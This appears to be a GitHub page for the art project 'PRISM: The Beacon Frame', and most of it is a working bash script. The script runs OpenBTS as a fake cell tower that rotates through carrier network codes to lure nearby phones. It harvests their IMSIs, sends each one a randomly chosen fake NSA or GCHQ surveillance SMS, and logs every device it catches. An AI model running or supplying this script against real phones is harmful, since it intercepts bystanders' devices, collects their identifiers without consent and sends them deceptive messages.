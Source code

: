 # prism
http://criticalengineering.org/projects/prism-the-beacon-frame/
great works from Julian Oliver and Danja Vasiliev


#code----------------------------------------

    #!/bin/bash

    # figlet -f slant "Starting up..."
    echo "Starting up..."
    echo "Press 'Q' for a clean exit"
    echo "//---------------------------------------------------------------->"

    #MNCs=$(source MNCS.txt)
    MNCs=(01 02 03 07 20)
    TXTS=(
    "State Spying Reform 2014-A6. Embrace Our Transparency."
    "NSA Thanks You For Use Of Your Device"
    "This Device Has Cooperated. We Thank It."
    "Intercepted For Future Use. GCHQ Thanks You."
    "Trans Atlantic Upload Complete."
    "Remain Still. Do Not Switch Off Device - GCHQ"
    )
    LOG=$(date +%Y-%m-%d_%H:%M:%S)_tmsis.log
    KEY=''

    while [ "x$KEY" != "xQ" ];
        do 
            read KEY 
            for i in ${MNCs[@]}; 
                do 
                    MNC=$i; 
                    # Set the BTS to the new MNC 
                    echo "config GSM.Identity.MNC $MNC" | ./OpenBTSCLI
                    echo "We're working with MNC: " $MNC
                    # Poll every 60 seconds 
                    for j in {1..60}:
                        do 
                            sleep 1
                            # Check if we've caught any IMSIs
                            if [ $(echo "tmsis"|./OpenBTSCLI|tail -n +15|awk '{\
                            print $2 }'|sed '/^\s*$/d'|wc -l) -gt 0 ]
                                then
                                    for IMSI in $(echo "tmsis"|./OpenBTSCLI | tail -n +15 | awk \ 
                                        '{ print $2 }' | sed '/^\s*$/d');
                                        do
                                            # Randomly choose an SMS to send them
                                            SMS="${TXTS[RANDOM%${#TXTS[@]}]}"
                                            # Send it
                                            echo "sendsms $IMSI $SMS"|./OpenBTSCLI
                                            echo IMSI $IMSI was sent $SMS 
                                            # Append this event to log
                                            echo $IMSI $(date +%Y-%m-%d_%H-%M-%S) $MNC $SMS >> $LOG
                                            #sleep 1
                                        done
                                    # Clear the TMSIS table
                                    echo "tmsis clear" | ./OpenBTSCLI
                                else
                                    echo "No IMSI joined us this round."
                            fi
                        done
                done
    done

    echo "//<----------------------------------------------------------------"
    echo "Quitting..."

    cat $LOG | sort -n | uniq -u > $LOG.sorted
    echo "We hit" $(cat $LOG.sorted | wc -l) "devices this session."

